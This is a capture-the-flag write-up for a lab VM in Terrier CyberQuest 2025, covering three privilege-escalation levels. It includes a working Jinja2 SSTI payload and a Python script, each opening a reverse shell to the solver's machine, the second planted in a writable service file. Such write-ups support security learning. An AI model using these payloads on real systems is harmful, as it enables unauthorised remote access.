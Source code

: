 ```yaml
---
title: "Indian Army Terrier CyberQuest 2025"
date: 2025-09-29
layout: writeup
platform: Terrier CyberQuest 2025
categories: [web, pwn, pentesting, rev, forensics, steg]
tags: [web, pwn, pentesting, rev, forensics, steg]
---
```


# Terrier CyberQuest 2025

Writeups for all the challenges I solved in Terrier CyberQuest 2025
We're given a vm file. I have not solved many "rootme style" boxes like these, so it was quite fun.

## Level 1

First I had to figure out the IP address of the VM. Since we don't have any login credentials, I did an `arp-scan` on my local network to find the IP address of the VM.

Running an nmap scan on the IP address, I found that port 5000 was open.
It had a python web server running.
Static site, not much to see there.

I ran `gobuster` to find any hidden directories.
It found a `/page` directory.

The directory had only a textbox and just echoed back what I typed.
Trying out basic SSTI payloads for jinja2 like `{{ 7*7 }}, I found that it was indeed vulnerable to SSTI.

Exploiting the SSTI vulnerability, I was able to get a reverse shell as the `web-ssti` user.

```py
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"172.22.78.1\",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}
```

There I found the first flag.

# Level 2

Some basic looking around tells us that there are 3 other users on the system: `flower`, `leaf`, and `stem`.

I had to somehow escalate my privileges to the `flower` user.

I ran linpeas to find any potential privilege escalation vectors.
There was a suspicious looking folder `/network_logs`.

It contained a note and a pcap file.

```
$ cat admin_note.txt
Hello Reader, In this pcap file administrator send the password through a media file and it is password protected .... password also transmitted through network.
```

Now this is where we struggled a bit.
I was immediately able to find the image file in the pcap using wireshark.
It was just an http file transfer.
But I couldn't find the password anywhere in the pcap.

The organizers were kind enough to give us a hint to focus on how users ping each other.
I realized that the password might be hidden in the ICMP packets.
At the end of every ping request, there was a small string of random but readable.
I extracted all those strings and combined them to get the password which was base62 encoded.

Now i was able to get the password for the flower user using OpenStego and ssh into the flower user.
The flag was in the home directory.

# Level 3

Now I had to escalate my privileges to the `leaf` user.
I ran linpeas again to find any potential privilege escalation vectors.
There was a folder called `/handler/` with 2 python files inside.

The files were owned by the `leaf` user but one of the files `handler.py` was writable by our user group.

The `dispatcher.py` file was running as a service and it was importing the `handler.py` file.
It checked if there was any listener open on port 8080 and if there was, it would run the `handler.py` file.

I modified the `handler.py` file to get a reverse shell back to my machine.

```py
import sys,socket,os,pty

s=socket.socket()
s.connect(("172.22.78.1",4444))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")
```

I got a reverse shell as the `leaf` user.
The flag was in the home directory again.
